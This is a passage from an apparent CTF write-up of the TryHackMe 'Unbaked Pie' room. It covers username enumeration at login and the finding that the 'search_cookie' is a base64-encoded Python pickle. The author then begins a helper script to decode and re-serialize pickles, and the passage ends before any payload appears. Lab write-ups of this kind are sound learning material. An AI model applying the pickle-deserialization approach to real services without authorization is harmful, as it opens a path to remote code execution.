 **When we try to login an non-existent account, it'll have an error output, which is in JSON format:**

In that JSON data, we can see there is an `inactive` key, which has value: `This account is inactive.`. That being said, **maybe we can enumerate usernames via the response?**

**Now, let's signup an account and login:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Unbaked-Pie/images/Pasted%20image%2020230113074007.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Unbaked-Pie/images/Pasted%20image%2020230113074019.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Unbaked-Pie/images/Pasted%20image%2020230113074211.png)

Umm... Is it broken?

Let's take a step back.

## Initial Foothold

**I have a feeling that we need to do something with the `search_cookie`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|07:45:17]
└> echo 'gASVCAAAAAAAAACMBHRlc3SULg==' | base64 -d | xxd                                    
00000000: 8004 9508 0000 0000 0000 008c 0474 6573  .............tes
00000010: 7494 2e                                  t..
```

**Why the decoded base64 string has some weird bytes?**

After putting different puzzles together, I think this is **a serialized Python object!**

**Let's write a python script to figure it out:**
```py
#!/usr/bin/env python3

import pickle
from base64 import b64decode
import logging

class Serialization:
    def __init__(self, cookie):
        self.cookie = cookie

    def decodeSearchCookie(self):
        base64Decoded = b64decode(self.cookie)
        logging.info(f'Base64 decoded: {base64Decoded}')

        with open('cookie.txt', 'wb') as file:
            file.write(base64Decoded)

    def deserializeObject(self):
        with open('cookie.txt', 'rb') as file:
            deserializedObject = pickle.load(file)

        logging.info(f'Deserialized: {deserializedObject}')

    def serializeObject(self, serializeContent):
        with open('serialized.txt', 'wb') as file:
            pickle.dump(serializeContent, file)

        logging.info(f'Before serialized: {serializeContent}')

        with open('serialized.txt', 'rb') as file:
            logging.info(f'Serialized: {file.read()}')

def main():
```